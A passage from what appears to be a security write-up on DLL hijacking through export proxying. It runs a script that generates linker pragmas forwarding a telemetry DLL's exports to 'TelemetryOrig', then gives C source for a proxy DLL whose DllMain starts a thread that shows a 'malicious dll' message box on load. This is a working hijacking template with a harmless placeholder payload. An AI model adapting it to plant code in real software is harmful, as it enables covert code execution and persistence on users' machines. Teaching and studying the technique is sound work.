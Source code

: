 Let's try it:

<div class="language-plaintext highlighter-rouge">
<div class="highlight">
<pre class="highlight">
<code>$ <span class="ow">chmod +x ./make_pragmas.sh</span>
$ <span class="ow">./make_pragmas.sh > dll.c</span></code></pre></div></div>

It should generate a file that looks something like:

```c
#include <windows.h>
#pragma comment(lib, "user32") // for MessageBoxA

#pragma comment(linker, "/export:??0AddMountedFolderScenario@QoS@@QEAA@XZ=TelemetryOrig.??0AddMountedFolderScenario@QoS@@QEAA@XZ")
#pragma comment(linker, "/export:??0AutoMountScenario@QoS@@QEAA@XZ=TelemetryOrig.??0AutoMountScenario@QoS@@QEAA@XZ")
#pragma comment(linker, "/export:??0CheckQuotaInfoScenario@@QEAA@XZ=TelemetryOrig.??0CheckQuotaInfoScenario@@QEAA@XZ")
#pragma comment(linker, "/export:??0ConnectMountedFolderScenario@QoS@@QEAA@XZ=TelemetryOrig.??0ConnectMountedFolderScenario@QoS@@QEAA@XZ")
#pragma comment(linker, "/export:??0DownloadScenario@@QEAA@AEBV?$basic_string@_WU?$char_traits@_W@std@@V?$allocator@_W@2@@std@@W4DownloadType@@@Z=TelemetryOrig.??0DownloadScenario@@QEAA@AEBV?$basic_string@_WU?$char_traits@_W@std@@V?$allocator@_W@2@@std@@W4DownloadType@@@Z")
// ...
#pragma comment(linker, "/export:?UploadScenarioInCurrentTraceReportSuccess@@YAXXZ=TelemetryOrig.?UploadScenarioInCurrentTraceReportSuccess@@YAXXZ")

DWORD WINAPI ThreadFunc(void* data) {
    MessageBoxA(NULL, "Hi from a malicious dll", "Hi from a malicious dll", 0);
    return 0;
}

BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved) {
    switch(dwReason){
        case DLL_PROCESS_ATTACH:
            CloseHandle(CreateThread(NULL, 0, ThreadFunc, NULL, 0, NULL));
            break;
        case DLL_PROCESS_DETACH:
            break;
        case DLL_THREAD_ATTACH:
            break;
        case DLL_THREAD_DETACH:
            break;
    }
    return TRUE;
}
```

# Trying to hijack the dll again
